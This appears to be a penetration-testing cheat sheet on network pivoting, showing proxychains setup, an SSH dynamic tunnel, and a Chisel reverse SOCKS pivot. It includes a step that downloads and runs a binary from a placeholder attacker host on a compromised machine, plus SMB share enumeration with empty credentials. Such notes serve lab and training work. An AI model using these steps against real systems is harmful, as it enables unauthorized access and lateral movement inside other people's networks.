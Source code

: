 ## SSH Tunneling 
First we need to configure the proxychains4.conf file.
```
sudo gedit/etc/proxychains4.conf
```
Comment out strict_chain and uncomment dynamic_chain.
Uncomment proxy_dns.

Make sure that at the bottom we have socks4 proxy uncommented:
```
socks 4        127.0.0.1 9050
```

Next we need to start the tor proxy.
```
sudo service tor status
sudo service tor start
sudo service tor status
```

Create an SSH tunnel into the machine that is connected to the internal network/subnet. You can ssh via username/pass or use an SSH key id_rsa:
```
ssh -NfD 9050 root@<IP Address>
or
chmod 600 id_rsa
ssh -NfD 9050 root@<IP Address> -i id_rsa
```
Now test with proxychains:
```
proxychains -q crackmapexec smb 10.10.11.0/24 -u '' -p '' --shares
```
To kill the SSH tunnel just run `ps aux | grep ssh` and `kill <process id>`.


## Chisel - Single Pivot Example
NOTE: Using chisel, you will not need to run a tor server with `sudo service tor start`. You can verify this by checking `sudo service tor status`.
```
# On our attacker machine
chisel server -p 8001 --reverse
gedit /etc/proxychains4.conf

# Add this in /etc/proxychains4.conf file to the bottom and comment out any other proxies
socks5 127.0.0.1 1080

# Run a python server on our attacker machine where we have the chisel binary hosted, usually in the ~/server folder
python3 -m http.server 80

# Target machine where you have shell
# upload chisel to target machine - run this from root at the target 
wget http://attacker_ip:80/chisel
chmod +x chisel
./chisel client attacker_ip:8001 R:1080:socks

# Now do a quick test to see if you can reach the internal network
proxychains -q crackmapexec smb 10.10.11.0/24 -u '' -p '' --shares
```

